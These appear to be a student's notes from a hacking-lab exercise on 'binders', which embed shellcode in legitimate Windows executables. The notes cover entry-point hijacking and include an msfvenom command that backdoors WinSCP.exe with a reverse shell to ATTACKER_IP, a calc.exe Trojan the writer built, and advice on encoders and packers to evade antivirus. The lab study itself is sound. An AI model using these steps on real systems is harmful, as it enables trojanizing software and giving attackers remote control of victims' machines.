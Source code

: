 - While every single binder might work slightly differently, they will basically add the code of your shellcode inside the legitimate program and have it executed somehow.
- You could, for example, change the `entry point` in the PE header so that your shellcode executes right before the program and then redirect the execution back to the legitimate program once it is finished making it like it didn't just execute a malicious payload at all.
- This way, when the user clicks the resulting executable, your shellcode will get silently executed first and continue running the program normally without the user noticing it.

		- I guess from an Attacker's perspective, you have to make sure there wouldn't be a visual way for users to detect that there is some code that got executed alongside the program they want to run.

### Binding with `msfvenom`
- You can easily plant a payload of your preference in any `.exe` file with `msfvenom`.
- The binary will still work as usual but execute an additional payload ***silently***.
- The method used by `msfvenom` injects your malicious program by creating an extra thread for it, so it is slightly different from what was mentioned before but achieves the same result.
- Having a separate thread is even better since your program won't get blocked in case your shellcode fails for some reason.

		- Okay, so when the payload got executed in the victim's machine, there are TWO threads in total, the payload AND THEN the legitimate software.
		- I guess the one from MalDev Essentials - Backdooring section only has one thread as we modified the entry point of the PuTTy software so it executes the malicious code BEFORE the actual PuTTY.

**Note**: Metasploit is installed in the Windows machine for your convenience, but it might take up to `3 minutes` to generate the payload.

```shell-session
C:\> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

<u>Creating the Trojan</u>:

![](/assets/img/Pasted image 20230114230410.png)

	- In this, I modified it to create a calc.exe Trojan since the system could not find WinSCP.exe.

<u>Listener</u>:

![](/assets/img/Pasted image 20230114224322.png)

- Executing `calc-evil.exe`:

		- Spawns calculator and then create a reverse shell as well.

### Binders and AV

- Binders won't do much to hide your payload from an AV solution.
- The simple fact of joining two executables without any changes means that the resulting executable will still trigger any signature that the original payload did.
- The **main user of binders is to fool users into believing they are executing a legitimate executable rather than a malicious payload**.

		- so yes, this technique is used to create a Trojan.

- When creating a real payload, you may want to use:

		- encoders
		- crypters
		- packers

- to hide your shellcode from signature-based AVs and then bind it into a known executable so that the user doesn't know what is being executed.

![](/assets/img/Pasted image 20230429184526.png)
